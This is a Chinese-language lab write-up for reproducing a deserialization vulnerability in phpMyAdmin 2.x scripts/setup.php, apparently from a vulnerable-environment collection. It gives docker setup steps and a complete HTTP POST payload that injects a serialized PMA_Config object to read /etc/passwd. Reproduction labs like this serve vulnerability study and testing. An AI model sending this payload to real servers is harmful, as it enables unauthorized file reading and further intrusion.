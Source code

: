 # phpmyadmin scripts/setup.php 反序列化漏洞（WooYun-2016-199433）

phpmyadmin 2.x版本中存在一处反序列化漏洞，通过该漏洞，攻击者可以读取任意文件或执行任意代码。

## 环境搭建

执行如下命令启动phpmyadmin：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`，即可看到phpmyadmin的首页。因为没有连接数据库，所以此时会报错，但我们这个漏洞的利用与数据库无关，所以忽略。

## 漏洞复现

发送如下数据包，即可读取`/etc/passwd`：

```
POST /scripts/setup.php HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
```

![](1.png)